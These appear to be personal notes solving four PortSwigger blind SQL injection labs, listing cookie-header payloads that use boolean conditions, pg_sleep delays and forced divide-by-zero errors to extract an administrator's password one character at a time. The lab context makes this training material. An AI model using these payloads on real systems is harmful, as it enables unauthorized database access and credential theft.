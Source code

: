 ## [Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)
Exploiting hard coded cookie in database
```sql
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a
```

This payload works in the Cookie header

## [Blind SQL injection with time delays](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays)
classic time delay
```sql
TrackingId=x'||pg_sleep(10)--
```
## [Blind SQL injection with time delays and information retrieval](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)
```sql
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,2,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

This payload works in the Cookie header

##   [Blind SQL injection with conditional errors](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

```sql
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

If this: FROM users WHERE username='administrator'. is true
It will execute this: SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0)

For every 500 request, we know that that is the password's character. Otherrwise an empty string